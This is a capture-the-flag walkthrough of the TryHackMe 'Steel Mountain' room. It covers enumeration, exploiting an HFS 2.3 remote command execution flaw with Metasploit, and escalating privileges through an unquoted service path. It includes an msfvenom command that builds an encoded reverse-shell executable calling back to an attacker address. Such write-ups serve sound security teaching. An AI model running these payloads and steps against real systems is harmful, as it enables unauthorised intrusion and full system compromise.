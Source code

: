 ```yaml
---
title: "TryHackMe - Steel Mountain"
author: Nasrallah
description: ""
date: 2022-05-15 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, Windows, metasploit, msfvenom, usp]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Steel Mountain](https://tryhackme.com/room/steelmountain) from [TryHackMe](https://tryhackme.com). It's a windows machine running a vulnerable webserver, the vulnerability permits us to execute commands remotely, so we used an exploit to get a reverse shell. Once we're in the machine, we find a service with an unquoted service path, we create and exploit for that and use it to escalate our privileges. 

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.36.31
Host is up (0.10s latency).        
Not shown: 989 closed tcp ports (reset) 
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5 
|_http-title: Site doesn't have a title (text/html).  
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc              Microsoft Windows RPC                                                                                                      
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2022-05-15T09:46:41
|_Not valid after:  2022-11-14T09:46:41
|_ssl-date: 2022-05-16T10:19:46+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-16T10:19:42
|_  start_date: 2022-05-16T09:46:29
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:80:6a:01:02:d7 (unknown)
```

We got plenty of open ports, and we can see it's a windows machine.

## Web

Let's navigate to the webserver on port 80.

![](/assets/img/tryhackme/steel/1.png)

Let's view the source code.

![](/assets/img/tryhackme/steel/2.png)

We got the name of the employee of the month, it's Bill Harper.

On the other webserver, we see that it's running `http file server 2.3`, let's see if there is any vulnerabilities in this version.

![](/assets/img/tryhackme/steel/3.png)

There is a remote command execution vulnerability.

# **Foothold**

## Metasploit

To get foothold using `metasploit`, we can use this exploit `exploit/windows/http/rejetto_hfs_exec`.

Launch metasploit by running `msfconsole`, and run `use exploit/windows/http/rejetto_hfs_exec`.

After that, we need to specify the RHOSTS, RPORT and LHOST.
 
 - RHOSTS: is the target machine's IP.
 - RPORT : is the port of the vulnerable web server (8080).
 - LHOST : is the attacker machine's IP, tun0.

![](/assets/img/tryhackme/steel/4.png)

## Exploit

To get foothold without metasploit, we can use exploits found in [Exploit-DB](https://www.exploit-db.com/) or other places..

In this example, I'll be using this [Exploit](https://github.com/NullByte007/Exploits/blob/master/Rejetto_HFS_2.3.X_RCE/HFS_RCE.py).

![](/assets/img/tryhackme/steel/5.png)


# **Privilege Escalation**

For this part, we're going to use the script suggested in the room; [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). We'll upload it using meterpreter, and load powershell in order to execute the script.

![](/assets/img/tryhackme/steel/6.png)

Now, we need to load the script with the command `. .\PowerUp.ps1` and the execute it with `Invoke-AllCheck`.

![](/assets/img/tryhackme/steel/7.png)

We can see that the `AdvancedSystemCareService9` service has an unquoted service path, we can restart it, and have write permissions on it's folder.

Let's create an executable that would sends us a shell once it's executed.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

Then we need to upload the `Advanced.exe` file to the machine, and put it in the correct folder.

![](/assets/img/tryhackme/steel/8.png)


Next, we need to setup a multi handler listener to catch the reverse shell.

![](/assets/img/tryhackme/steel/9.png)

Now, we need to restart the `AdvancedSystemCareService9` service. To do that, we have to stop it with the command `sc stop AdvancedSystemCareService9` and start it with `sc start AdvancedSystemCareService9`. All that need to happen in a windows command shell, so type `shell` in meterpreter.

![](/assets/img/tryhackme/steel/10.png)

Now if we go to our multi handler listener, we should see a windows shell, and we have system privileges.

![](/assets/img/tryhackme/steel/11.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
